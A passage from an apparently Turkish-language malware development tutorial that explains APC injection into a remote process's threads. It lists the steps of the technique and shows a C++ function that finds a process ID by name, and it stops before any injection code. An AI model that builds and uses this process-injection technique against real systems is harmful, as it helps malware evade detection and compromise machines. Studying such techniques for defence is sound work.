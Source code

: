 \newpage
\subsection{15. APC enjeksiyonu uyarılabilir İş parçacıkları aracılığıyla. Basit C++ zararlı yazılım.}

﷽

![APC injection](./images/23/2021-11-22_14-47.png){width="80%"}    

Bugün, en basit APC enjeksiyon tekniğinden bahsedeceğim. Uzak iş parçacıklarında APC enjeksiyonu hakkında konuşacağım. En basit yöntemde, hedef sürecin tüm iş parçacıklarına APC enjekte edilir, çünkü bir iş parçacığının uyarılabilir olup olmadığını bulmak için bir işlev yoktur ve iş parçacıklarından birinin uyarılabilir olduğunu varsayarak APC işimizi çalıştırabiliriz.      

### örnek

Bu tekniğin akışı şu şekildedir:    

- Hedef sürecin kimliğini bulun.    

- Yükümüz için hedef süreçte alan tahsis edin.    

- Tahsis edilen alana yükü yazın.    

- Hedef süreç iş parçacıklarını bulun.    

- Yükümüzü çalıştırmak için hepsine bir APC sıraya alın.    

İlk adım için hedef sürecin kimliğini bulmamız gerekiyor. Bunun için geçmiş bölümlerimden bir işlev kullandım:     

![APC injection 2](./images/23/2021-11-22_16-00.png){width="80%"}    

Bu işlevin tam kaynak kodu:    

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```
